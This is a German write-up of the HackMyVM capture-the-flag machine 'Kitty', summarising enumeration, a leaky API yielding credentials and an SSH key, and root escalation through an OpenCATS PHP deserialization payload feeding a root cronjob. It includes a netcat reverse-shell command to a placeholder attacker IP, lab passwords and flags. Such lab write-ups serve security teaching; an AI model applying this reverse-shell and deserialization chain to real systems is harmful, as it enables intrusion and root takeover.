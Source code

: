 # Kitty - HackMyVM (Hard)

![Kitty.png](Kitty.png)

## Übersicht

*   **VM:** Kitty
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Kitty)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 18. April 2023
*   **Original-Writeup:** https://alientec1908.github.io/Kitty_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Kitty" zu erlangen. Der Weg zum initialen Zugriff führte über die Enumeration einer unsicheren API, die sowohl Benutzer-Credentials als auch einen privaten SSH-Schlüssel preisgab. Nach dem Login als Benutzer `dyutidhara` wurde durch weitere Enumeration (Datenbank-Analyse, Prozess-Monitoring) ein kritischer Cronjob entdeckt. Die finale Rechteausweitung zu Root erfolgte durch Ausnutzung einer PHP-Deserialisierungsschwachstelle in der OpenCATS-Webanwendung. Dies ermöglichte das Schreiben einer speziell präparierten Datei, die vom Cronjob verarbeitet wurde und zur Ausführung von Code als Root führte, wodurch eine Reverse Shell erlangt wurde.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `nikto`
*   `wfuzz`
*   `vi`
*   `gobuster`
*   `hashcat`
*   `curl`
*   `ssh`
*   `find`
*   `chmod`
*   `pspy64`
*   `mysql`
*   `grep`
*   `wget`
*   `python3 http.server`
*   Metasploit (`msfconsole`)
*   `nc` (netcat)
*   `phpggc`
*   `base64`
*   Standard Linux-Befehle (`cat`, `ls`, `echo`, etc.)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Kitty" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.150) mit `arp-scan` identifiziert.
    *   `nmap`-Scan offenbarte SSH (Port 22), HTTP (Port 80, Nginx, Weiterleitung auf `kitty.hmv`) und einen weiteren HTTP-Dienst auf Port 3000 (später als API identifiziert).
    *   `nikto` auf Port 80 zeigte fehlende Sicherheitsheader.
    *   Mittels `wfuzz` wurde die Subdomain `cookie.kitty.hmv` entdeckt.
    *   `/etc/hosts` Einträge für `kitty.hmv` und `cookie.kitty.hmv` wurden hinzugefügt.
    *   `gobuster` auf `cookie.kitty.hmv` fand `/register.php`, `/login.php` und das Verzeichnis `/config/`.

2.  **API Enumeration & Initial Access (`dyutidhara`):**
    *   Analyse von Gitea-Logs (aus der Datenbank, später gefunden) oder Netzwerkanfragen führte zur Entdeckung der API-Domain `whythisapiissofast.kitty.hmv`.
    *   `/etc/hosts` Eintrag für `whythisapiissofast.kitty.hmv` hinzugefügt.
    *   `curl` auf `http://whythisapiissofast.kitty.hmv/api/v2/-1` lieferte Credentials: `nobody:74k3!7345y`.
    *   `curl` auf `http://whythisapiissofast.kitty.hmv/api/v2/-2` lieferte einen privaten SSH-Schlüssel für den Benutzer `dyutidhara`.
    *   Erfolgreicher SSH-Login als `dyutidhara@kitty.hmv` mit dem gefundenen Schlüssel. Die User-Flag wurde in `/home/dyutidhara/user.txt` gefunden.

3.  **Post-Exploitation & Privilege Escalation Vector Discovery:**
    *   `sudo -l` als `dyutidhara` war nicht erfolgreich, da das Passwort unbekannt war.
    *   `pspy64` wurde auf das Zielsystem hochgeladen und ausgeführt, was einen häufig als Root (`UID=0`) laufenden Cronjob (`/usr/sbin/CRN -f`) aufdeckte.
    *   Die Datei `/var/www/cookie/config/db.php` enthielt Datenbank-Credentials (`padding:ihateyouadmin`).
    *   Login in die MariaDB-Datenbank als `root` mit dem Passwort `root` (aus einem Kommentar in `db.php`, aber gültig).
    *   Enumeration der Datenbanken:
        *   `gitea.user`: Hash für Gitea-Admin.
        *   `gitea.action`: Kommentare enthielten Hinweise auf die Entdeckung der API und des SSH-Schlüssels.
        *   `padding.users`: MD5-Hashes für `admin` und `gitea`.
        *   `padding.salt`: Salt `YXZpam5leWFt` (verwendet mit dem `gitea` MD5-Hash).
    *   Analyse von `/etc/crontab` enthüllte den detaillierten Befehl des Root-Cronjobs:
        `* * * * * root [ -f /usr/local/etc/newfile.txt ] && /usr/bin/sed -e 's/\[{"Expires":1,"Discard":false,"Value":"//' -e 's/\\n"}]//' /usr/local/etc/newfile.txt > /usr/local/etc/payload.txt | for i in $(/usr/bin/cat /usr/local/etc/payload.txt); do /usr/bin/echo $i | /usr/bin/base64 -d | /usr/bin/bash; done`
        Dieser Cronjob führt Base64-dekodierten Inhalt aus `/usr/local/etc/payload.txt` (abgeleitet von `/usr/local/etc/newfile.txt`) als Root aus.
    *   Kein direkter Schreibzugriff auf `/usr/local/etc/newfile.txt` als `dyutidhara`.
    *   Untersuchung der Nginx-Konfiguration (`/etc/nginx/sites-enabled/opencats`) offenbarte eine weitere Webanwendung (OpenCATS) unter `thisisnotcatitisopencats.kitty.hmv` auf Port 80.
    *   `/etc/hosts` Eintrag für `thisisnotcatitisopencats.kitty.hmv` hinzugefügt.

4.  **Privilege Escalation (von `dyutidhara` zu `root` via PHP Deserialization & Cronjob):**
    *   Ein Base64-kodierter Reverse-Shell-Payload (`nc -e /bin/bash ANGRIFFS_IP PORT`) wurde erstellt und in `/tmp/newfile.txt` auf dem Zielsystem gespeichert.
    *   Ein Netcat-Listener wurde auf dem Angreifer-System gestartet.
    *   Mit `phpggc` wurde ein serialisierter PHP-Payload für `Guzzle/FW1` generiert. Dieser Payload wurde so konstruiert, dass er bei der Deserialisierung den Inhalt von `/tmp/newfile.txt` nach `/usr/local/etc/newfile.txt` schreibt.
    *   Um Zugriff auf OpenCATS zu erhalten und einen potenziellen Deserialisierungs-Eingabepunkt zu finden, wurde das Passwort des `admin`-Benutzers in der `opencats`-Datenbank auf den MD5-Hash von "admin" geändert.
    *   Der `phpggc`-Payload wurde URL-kodiert und als GET-Parameter (`parametersactivity:ActivityDataGrid`) an eine URL der OpenCATS-Anwendung (`http://thisisnotcatitisopencats.kitty.hmv/index.php?m=activity`) gesendet.
    *   Die Deserialisierung des Payloads durch OpenCATS schrieb den Base64-Reverse-Shell-Code in `/usr/local/etc/newfile.txt`.
    *   Der Cronjob verarbeitete diese Datei, extrahierte und dekodierte den Base64-String und führte ihn als Root aus.
    *   Eine Root-Shell wurde auf dem Netcat-Listener des Angreifers empfangen.
    *   Die Root-Flag wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Unsichere API-Endpunkte:** Preisgabe von Klartext-Benutzerdaten (`nobody:74k3!7345y`) und eines privaten SSH-Schlüssels (`dyutidhara`) über ungesicherte API-Pfade.
*   **Schwache Datenbank-Credentials:** Das MariaDB-Root-Passwort war `root`. Datenbank-Credentials für die Webanwendung (`padding:ihateyouadmin`) wurden in einer Konfigurationsdatei im Web-Root gefunden.
*   **PHP Object Injection (Deserialisierung):** Eine Schwachstelle in der OpenCATS-Anwendung erlaubte die Deserialisierung eines bösartigen PHP-Objekts (erstellt mit `phpggc` für Guzzle), was zum Schreiben einer Datei auf dem System führte.
*   **Unsicherer Cronjob:** Ein minütlich als Root laufender Cronjob las eine Datei, verarbeitete deren Inhalt mit `sed` und führte dann jede Zeile als Base64-dekodierten Shell-Befehl aus. Dies ermöglichte RCE, sobald der Inhalt der Eingabedatei kontrolliert werden konnte.
*   **Subdomain & API Enumeration:** Auffinden versteckter Subdomains und API-Endpunkte durch Brute-Forcing und Analyse von Konfigurationsdateien/Logs.
*   **JWT-Analyse:** Untersuchung von JSON Web Tokens, die von der API zurückgegeben wurden (Algorithmus HS256, `is_admin`-Flag konnte nicht manipuliert werden).
*   **Kernel-Schwachstelle (Dirty Pipe - CVE-2022-0847):** Das System wurde als anfällig für Dirty Pipe identifiziert, obwohl dieser Vektor nicht für den finalen Exploit genutzt wurde.

## Flags

*   **User Flag (`/home/dyutidhara/user.txt`):** `3702f4d1247163b61b1cd8b368539cbf`
*   **Root Flag (`/root/root.txt`):** `3f798f4e70a832c64e8f6f1462b04d0f`

## Tags

`HackMyVM`, `Kitty`, `Hard`, `API Exploitation`, `SSH Key Leak`, `PHP Deserialization`, `Cronjob Exploit`, `Guzzle`, `phpggc`, `Linux`, `Web`, `Privilege Escalation`, `Database Enumeration`, `JWT`
